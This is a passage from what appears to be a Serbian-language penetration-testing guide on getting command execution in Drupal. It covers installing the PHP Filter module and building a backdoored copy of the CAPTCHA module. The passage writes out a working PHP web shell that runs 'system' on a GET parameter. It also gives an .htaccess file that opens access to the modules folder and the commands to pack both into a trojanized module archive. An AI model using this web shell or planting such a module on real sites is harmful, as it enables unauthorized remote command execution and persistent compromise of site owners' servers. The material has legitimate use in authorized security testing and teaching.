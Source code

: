 Na kraju samo pristupite novo kreiranom čvoru:

```bash
curl http://drupal-site.local/node/3
```

### Instaliranje PHP Filter modula

Od verzije **8 nadalje, modul** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **nije instaliran po defaultu**. Da bismo iskoristili ovu funkcionalnost, moramo **samostalno instalirati modul**.

1. Preuzmite najnoviju verziju modula sa Drupal veb sajta.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. Nakon preuzimanja, idite na **`Administracija`** > **`Izveštaji`** > **`Dostupna ažuriranja`**.
4. Kliknite na **`Pregledaj`**`, izaberite fajl iz direktorijuma u koji ste ga preuzeli, a zatim kliknite na **`Instaliraj\`\*\*.
5. Kada se modul instalira, možemo kliknuti na **`Sadržaj`** i **kreirati novu osnovnu stranicu**, slično kao što smo uradili u primeru za Drupal 7. Ponovo se uverite da ste **izabrali `PHP kod` iz padajućeg menija `Format teksta`**.

### Modul sa zadnjim vratima

Modul sa zadnjim vratima može se kreirati **dodavanjem školjke postojećem modulu**. Moduli se mogu pronaći na drupal.org veb sajtu. Hajde da izaberemo modul kao što je [CAPTCHA](https://www.drupal.org/project/captcha). Pomerite se nadole i kopirajte link za tar.gz [arhivu](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Preuzmite arhivu i izvucite njene sadržaje.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Napravite **PHP web shell** sa sledećim sadržajem:

```php
<?php
system($_GET["cmd"]);
?>
```

* Zatim, trebamo kreirati **`.htaccess`** datoteku kako bismo sebi omogućili pristup folderu. Ovo je neophodno jer Drupal zabranjuje direktni pristup folderu **`/modules`**.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* Konfiguracija iznad će primeniti pravila za fasciklu / kada zahtevamo datoteku u /modules. Kopirajte oba ova fajla u fasciklu captcha i napravite arhivu.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
